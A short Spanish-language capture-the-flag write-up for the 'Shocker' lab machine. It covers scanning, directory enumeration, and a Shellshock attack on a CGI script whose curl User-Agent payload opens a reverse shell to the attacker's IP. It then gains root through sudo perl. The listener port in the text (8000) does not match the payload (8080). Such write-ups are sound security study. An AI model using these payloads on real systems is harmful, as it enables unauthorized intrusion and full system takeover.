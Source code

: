 # Shocker
Maquina sencilla centrada en una vulnerabilidad real, la llamada Shellshock

Interesante: Shellshock
## Initial Scan
```
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18  (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```
## Enum
### HTTP
#### Gobuster
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/server-status (Status: 403)
```
Dentro de cgi-bin usamos otra vez gobuster pero con extensiones de ejecutables esta vez php,c,pl,py,sh y encontramos un .sh
```
/user.sh (Status: 200)
```
## Exploit
Parece que tenemos todos los ingredientes para ejecutar un ataque mediante shellshock apache mod_cgi remote exploit
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/bash -i >& /dev/tcp/MyIP/8080 0>&1 ' bash -s :'' http://10.10.10.56/cgi-bin/user.sh
```
Abrimos un listener en local en el puerto 8000 y con esto ya tenemos shell como shelly
## Privesc
```
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Ejecutamos lo siguiente
```
    sudo perl -e 'exec "/bin/bash";'
```
Y obtenemos shell como root
